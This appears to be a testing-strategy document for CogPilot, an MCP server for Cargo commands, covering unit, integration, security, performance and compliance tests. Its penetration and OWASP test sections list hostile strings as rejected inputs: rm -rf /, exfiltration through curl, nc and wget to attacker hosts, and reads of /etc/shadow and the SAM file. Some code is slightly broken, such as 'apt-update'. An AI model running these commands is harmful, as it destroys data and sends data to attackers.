

# Testing Strategy

## Overview

This document outlines the comprehensive testing strategy for CogPilot, ensuring robust security, reliability, and performance of the MCP server for Rust Cargo commands.

## Testing Philosophy

### Security-First Testing

CogPilot's testing strategy prioritizes security validation at every level:

- **Threat-based Testing**: Every test case considers potential security threats
- **Boundary Testing**: Extensive testing of input validation and resource limits
- **Isolation Testing**: Verification of sandbox effectiveness and containment
- **Regression Testing**: Continuous validation of security controls

### Testing Pyramid



## Test Categories

### 1. Unit Tests

**Purpose**: Validate individual components and functions in isolation.

**Coverage Requirements**:

- Minimum 90% code coverage
- 100% coverage for security-critical functions
- All error handling paths tested

**Test Structure**:

```rust
#[cfg(test)]
mod tests {
    use super::*;
    use mockall::predicate::*;

    #[test]
    fn test_command_validation_valid_cargo_build() {
        let validator = CommandValidator::new();
        let result = validator.validate("cargo build --release");
        assert!(result.is_ok());
    }

    #[test]
    fn test_command_validation_malicious_input() {
        let validator = CommandValidator::new();
        let result = validator.validate("cargo build; rm -rf /");
        assert!(matches!(result, Err(ValidationError::MaliciousInput)));
    }

    #[test]
    fn test_resource_limit_enforcement() {
        let manager = ResourceManager::new();
        let result = manager.enforce_memory_limit(600_000_000); // 600MB (exceeds 512MB limit)
        assert!(matches!(result, Err(ResourceError::MemoryLimitExceeded)));
    }
}
```

**Security-Focused Unit Tests**:

```rust
#[cfg(test)]
mod security_tests {
    use super::*;

    #[test]
    fn test_input_sanitization() {
        let sanitizer = InputSanitizer::new();

        // Test SQL injection patterns
        let malicious_input = "'; DROP TABLE users; --";
        assert!(sanitizer.is_malicious(malicious_input));

        // Test command injection patterns
        let command_injection = "cargo build && curl evil.com";
        assert!(sanitizer.is_malicious(command_injection));

        // Test path traversal attempts
        let path_traversal = "../../../etc/passwd";
        assert!(sanitizer.is_malicious(path_traversal));
    }

    #[test]
    fn test_privilege_escalation_prevention() {
        let executor = CommandExecutor::new();
        let result = executor.execute("sudo cargo build");
        assert!(matches!(result, Err(SecurityError::PrivilegeEscalation)));
    }
}
```

### 2. Integration Tests

**Purpose**: Validate component interactions and API functionality.

**Test Scenarios**:

- MCP protocol compliance
- Command execution workflow
- Error handling and recovery
- Resource management integration

**Example Integration Tests**:

```rust
#[tokio::test]
async fn test_mcp_command_execution_flow() {
    let server = MCPServer::new_test();
    let client = MCPClient::new_test();

    // Test successful command execution
    let request = json!({
        "jsonrpc": "2.0",
        "method": "tools/call",
        "params": {
            "name": "cargo_build",
            "arguments": {
                "working_directory": "/tmp/test-project",
                "features": ["default"]
            }
        },
        "id": 1
    });

    let response = client.send_request(request).await.unwrap();
    assert_eq!(response["result"]["success"], true);
    assert!(response["result"]["output"].as_str().unwrap().contains("Finished"));
}

#[tokio::test]
async fn test_sandbox_isolation() {
    let sandbox = SandboxManager::new();
    let command = "cargo build --release";

    // Execute command in sandbox
    let result = sandbox.execute_isolated(command).await;
    assert!(result.is_ok());

    // Verify sandbox cleanup
    assert!(!sandbox.working_directory_exists());
    assert_eq!(sandbox.active_processes(), 0);
}
```

### 3. End-to-End Tests

**Purpose**: Validate complete user workflows and system behavior.

**Test Scenarios**:

- Complete project build workflows
- Multi-command sequences
- Error recovery scenarios
- Performance under load

**E2E Test Framework**:

```rust
use testcontainers::{clients::Cli, Container, Docker};
use serde_json::json;

struct E2ETestEnvironment {
    docker: Cli,
    cogpilot_container: Container<'static, CogPilotImage>,
    test_project_path: PathBuf,
}

impl E2ETestEnvironment {
    fn new() -> Self {
        let docker = Cli::default();
        let container = docker.run(CogPilotImage::default());

        Self {
            docker,
            cogpilot_container: container,
            test_project_path: PathBuf::from("/tmp/test-project"),
        }
    }

    async fn test_complete_build_workflow(&self) -> Result<(), TestError> {
        // 1. Initialize project
        self.send_command("cargo_init", json!({
            "name": "test-project",
            "template": "lib"
        })).await?;

        // 2. Build project
        self.send_command("cargo_build", json!({
            "working_directory": self.test_project_path
        })).await?;

        // 3. Run tests
        self.send_command("cargo_test", json!({
            "working_directory": self.test_project_path
        })).await?;

        // 4. Generate documentation
        self.send_command("cargo_doc", json!({
            "working_directory": self.test_project_path
        })).await?;

        Ok(())
    }
}
```

### 4. Security Tests

**Purpose**: Validate security controls and threat mitigation.

**Security Test Categories**:

#### 4.1 Penetration Tests

```rust
#[cfg(test)]
mod penetration_tests {
    use super::*;

    #[tokio::test]
    async fn test_command_injection_resistance() {
        let server = MCPServer::new_test();

        let malicious_commands = vec![
            "cargo build; rm -rf /",
            "cargo build && curl evil.com/exfiltrate",
            "cargo build | nc attacker.com 4444",
            "cargo build; python -c 'import os; os.system(\"rm -rf /\")'",
        ];

        for cmd in malicious_commands {
            let result = server.execute_command(cmd).await;
            assert!(matches!(result, Err(SecurityError::MaliciousInput)));
        }
    }

    #[tokio::test]
    async fn test_path_traversal_prevention() {
        let server = MCPServer::new_test();

        let malicious_paths = vec![
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\config\\sam",
            "/etc/shadow",
            "C:\\Windows\\System32\\drivers\\etc\\hosts",
        ];

        for path in malicious_paths {
            let result = server.execute_command(&format!("cargo build --manifest-path {}", path)).await;
            assert!(matches!(result, Err(SecurityError::UnauthorizedAccess)));
        }
    }
}
```

#### 4.2 Fuzzing Tests

```rust
use arbitrary::{Arbitrary, Unstructured};
use quickcheck::{Gen, QuickCheck};

#[derive(Debug, Clone, Arbitrary)]
struct FuzzInput {
    command: String,
    arguments: Vec<String>,
    working_directory: String,
}

impl quickcheck::Arbitrary for FuzzInput {
    fn arbitrary(g: &mut Gen) -> Self {
        FuzzInput {
            command: String::arbitrary(g),
            arguments: Vec::arbitrary(g),
            working_directory: String::arbitrary(g),
        }
    }
}

#[quickcheck]
fn fuzz_command_validation(input: FuzzInput) -> bool {
    let validator = CommandValidator::new();

    // The validator should never panic, regardless of input
    let result = std::panic::catch_unwind(|| {
        validator.validate(&input.command, &input.arguments, &input.working_directory)
    });

    result.is_ok()
}

#[quickcheck]
fn fuzz_json_parsing(input: String) -> bool {
    let parser = JSONRPCParser::new();

    // JSON parsing should never panic
    let result = std::panic::catch_unwind(|| {
        parser.parse(&input)
    });

    result.is_ok()
}
```

#### 4.3 Resource Exhaustion Tests

```rust
#[tokio::test]
async fn test_memory_exhaustion_protection() {
    let server = MCPServer::new_test();

    // Attempt to exceed memory limits (512MB)
    let result = server.execute_command("cargo build --release --jobs 50").await;

    // Should be terminated before system memory exhaustion
    assert!(matches!(result, Err(ResourceError::MemoryLimitExceeded)));
}

#[tokio::test]
async fn test_cpu_exhaustion_protection() {
    let server = MCPServer::new_test();

    // Attempt to run indefinitely
    let result = server.execute_command("cargo build --release --features infinite-loop").await;

    // Should be terminated due to time limit
    assert!(matches!(result, Err(ResourceError::TimeoutExceeded)));
}
```

### 5. Performance Tests

**Purpose**: Validate system performance and scalability.

**Performance Test Categories**:

#### 5.1 Load Testing

```rust
use criterion::{black_box, criterion_group, criterion_main, Criterion};
use tokio::runtime::Runtime;

fn bench_command_execution(c: &mut Criterion) {
    let rt = Runtime::new().unwrap();
    let server = MCPServer::new_test();

    c.bench_function("cargo_build", |b| {
        b.iter(|| {
            rt.block_on(async {
                server.execute_command(black_box("cargo build")).await
            })
        })
    });
}

fn bench_concurrent_commands(c: &mut Criterion) {
    let rt = Runtime::new().unwrap();
    let server = MCPServer::new_test();

    c.bench_function("concurrent_builds", |b| {
        b.iter(|| {
            rt.block_on(async {
                let futures = (0..10).map(|_| {
                    server.execute_command("cargo build")
                });
                futures::future::join_all(futures).await
            })
        })
    });
}

criterion_group!(benches, bench_command_execution, bench_concurrent_commands);
criterion_main!(benches);
```

#### 5.2 Stress Testing

```rust
#[tokio::test]
async fn test_high_concurrency() {
    let server = MCPServer::new_test();
    const CONCURRENT_REQUESTS: usize = 100;

    let futures = (0..CONCURRENT_REQUESTS).map(|i| {
        let server = server.clone();
        async move {
            server.execute_command(&format!("cargo build --manifest-path /tmp/project-{}/Cargo.toml", i)).await
        }
    });

    let results = futures::future::join_all(futures).await;

    // All requests should complete successfully
    for result in results {
        assert!(result.is_ok());
    }
}
```

### 6. Compliance Tests

**Purpose**: Validate adherence to security standards and regulations.

**Compliance Test Areas**:

#### 6.1 OWASP Top 10 Validation

```rust
#[cfg(test)]
mod owasp_tests {
    use super::*;

    #[tokio::test]
    async fn test_injection_prevention() {
        // A03:2021 - Injection
        let server = MCPServer::new_test();
        let injection_attempts = vec![
            "cargo build; echo 'pwned' > /tmp/pwned",
            "cargo build || wget evil.com/malware",
            "cargo build `rm -rf /`",
        ];

        for attempt in injection_attempts {
            let result = server.execute_command(attempt).await;
            assert!(matches!(result, Err(SecurityError::InjectionAttempt)));
        }
    }

    #[tokio::test]
    async fn test_authentication_bypass() {
        // A07:2021 - Identification and Authentication Failures
        let server = MCPServer::new_test();

        // Attempt to bypass authentication (not applicable for localhost-only)
        // Instead test localhost binding enforcement
        let result = server.bind_to_external_address("0.0.0.0:8080").await;
        assert!(matches!(result, Err(SecurityError::ExternalBindingBlocked)));
    }

    #[tokio::test]
    async fn test_localhost_only_binding() {
        // Test that server only binds to localhost
        let server = MCPServer::new_test();

        // Should succeed for localhost
        let localhost_result = server.bind_to_address("127.0.0.1:8080").await;
        assert!(localhost_result.is_ok());

        // Should fail for external addresses
        let external_result = server.bind_to_address("0.0.0.0:8080").await;
        assert!(matches!(external_result, Err(SecurityError::ExternalBindingBlocked)));
    }
}
```

#### 6.2 SOC 2 Type II Validation

```rust
#[cfg(test)]
mod soc2_tests {
    use super::*;

    #[test]
    fn test_audit_logging_completeness() {
        let logger = AuditLogger::new();
        let server = MCPServer::new_with_logger(logger.clone());

        // Execute command
        let _ = server.execute_command("cargo build").await;

        // Verify all required audit events are logged
        let logs = logger.get_logs();
        assert!(logs.iter().any(|log| log.event_type == "command_execution"));
        assert!(logs.iter().any(|log| log.event_type == "resource_usage"));
        assert!(logs.iter().any(|log| log.event_type == "security_validation"));
    }
}
```

## Test Infrastructure

### Test Environment Setup

**Docker Test Environment**:

```dockerfile
FROM rust:1.70-slim

# Install test dependencies
RUN apt-update && apt-get install -y \
    git \
    curl \
    docker.io \
    && rm -rf /var/lib/apt/lists/*

# Install Rust tools
RUN rustup component add clippy rustfmt

# Copy test configuration
COPY test-config/ /config/
COPY test-projects/ /test-projects/

# Set up test user
RUN useradd -m -u 1000 testuser
USER testuser

WORKDIR /app
```

**Test Data Management**:

```rust
struct TestDataManager {
    test_projects: HashMap<String, PathBuf>,
    mock_registries: Vec<MockRegistry>,
}

impl TestDataManager {
    fn create_test_project(&self, name: &str, template: &str) -> Result<PathBuf, TestError> {
        let project_path = self.temp_dir.join(name);

        match template {
            "lib" => self.create_library_project(&project_path),
            "bin" => self.create_binary_project(&project_path),
            "workspace" => self.create_workspace_project(&project_path),
            _ => Err(TestError::InvalidTemplate),
        }
    }

    fn cleanup_test_projects(&self) {
        for (_, path) in &self.test_projects {
            let _ = std::fs::remove_dir_all(path);
        }
    }
}
```

### Continuous Integration

**GitHub Actions Workflow**:

```yaml
name: Comprehensive Testing

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]

jobs:
  unit-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Install Rust
        uses: actions-rs/toolchain@v1
        with:
          profile: minimal
          toolchain: stable
          override: true
      - name: Run unit tests
        run: cargo test --lib
      - name: Generate coverage report
        run: cargo tarpaulin --out xml

  integration-tests:
    runs-on: ubuntu-latest
    needs: unit-tests
    steps:
      - uses: actions/checkout@v3
      - name: Start test environment
        run: docker-compose -f docker-compose.test.yml up -d
      - name: Run integration tests
        run: cargo test --test integration
      - name: Cleanup test environment
        run: docker-compose -f docker-compose.test.yml down

  security-tests:
    runs-on: ubuntu-latest
    needs: unit-tests
    steps:
      - uses: actions/checkout@v3
      - name: Run security audit
        run: cargo audit
      - name: Run penetration tests
        run: cargo test --test security
      - name: Run fuzzing tests
        run: cargo fuzz run fuzz_target_1 -- -max_total_time=300

  performance-tests:
    runs-on: ubuntu-latest
    needs: integration-tests
    steps:
      - uses: actions/checkout@v3
      - name: Run performance benchmarks
        run: cargo bench
      - name: Upload performance results
        uses: benchmark-action/github-action-benchmark@v1
        with:
          tool: 'cargo'
          output-file-path: target/criterion/report/index.html

  cross-platform-tests:
    strategy:
      matrix:
        os: [ubuntu-latest, windows-latest]
        rust: [1.70.0, stable]
    runs-on: ${{ matrix.os }}
    steps:
      - uses: actions/checkout@v3
      - name: Install Rust
        uses: actions-rs/toolchain@v1
        with:
          profile: minimal
          toolchain: ${{ matrix.rust }}
          override: true
      - name: Run cross-platform tests
        run: cargo test --release
      - name: Test localhost binding
        run: cargo test test_localhost_only --release
```

## Test Metrics and Reporting

### Coverage Requirements

**Code Coverage Targets**:

- Overall: 90% minimum
- Security-critical functions: 100%
- Error handling paths: 95%
- API endpoints: 100%

**Quality Gates**:

```yaml
quality_gates:
  unit_tests:
    pass_rate: 100%
    coverage: 90%
    performance: <100ms avg

  integration_tests:
    pass_rate: 100%
    coverage: 85%
    performance: <5s avg

  security_tests:
    pass_rate: 100%
    vulnerabilities: 0
    compliance: 100%
```

### Reporting Dashboard

**Test Results Dashboard**:

```rust
#[derive(Serialize, Deserialize)]
struct TestReport {
    timestamp: DateTime<Utc>,
    test_suite: String,
    total_tests: u32,
    passed: u32,
    failed: u32,
    skipped: u32,
    coverage_percentage: f64,
    duration: Duration,
    security_issues: Vec<SecurityIssue>,
    performance_metrics: PerformanceMetrics,
}

impl TestReport {
    fn generate_html_report(&self) -> String {
        // Generate comprehensive HTML report
        format!(
            r#"
            <html>
            <head><title>CogPilot Test Report</title></head>
            <body>
                <h1>Test Results Summary</h1>
                <div class="metrics">
                    <div class="metric">
                        <h3>Test Success Rate</h3>
                        <p>{:.1}%</p>
                    </div>
                    <div class="metric">
                        <h3>Code Coverage</h3>
                        <p>{:.1}%</p>
                    </div>
                    <div class="metric">
                        <h3>Security Issues</h3>
                        <p>{}</p>
                    </div>
                </div>
                <div class="details">
                    <!-- Detailed test results -->
                </div>
            </body>
            </html>
            "#,
            (self.passed as f64 / self.total_tests as f64) * 100.0,
            self.coverage_percentage,
            self.security_issues.len()
        )
    }
}
```

## Test Maintenance

### Test Review Process

**Review Checklist**:

- [ ] Security test coverage for new features
- [ ] Performance impact assessment
- [ ] Error handling validation
- [ ] Documentation updates
- [ ] Compliance verification

**Test Debt Management**:

- Monthly review of test effectiveness
- Quarterly performance baseline updates
- Annual security test strategy review
- Continuous improvement based on production incidents

### Test Environment Maintenance

**Regular Maintenance Tasks**:

- Update test dependencies
- Refresh test data sets
- Validate test environment consistency
- Review and update security test scenarios
- Performance baseline adjustments

This comprehensive testing strategy ensures CogPilot maintains the highest standards of security, reliability, and performance while providing developers with confidence in the system's robustness.
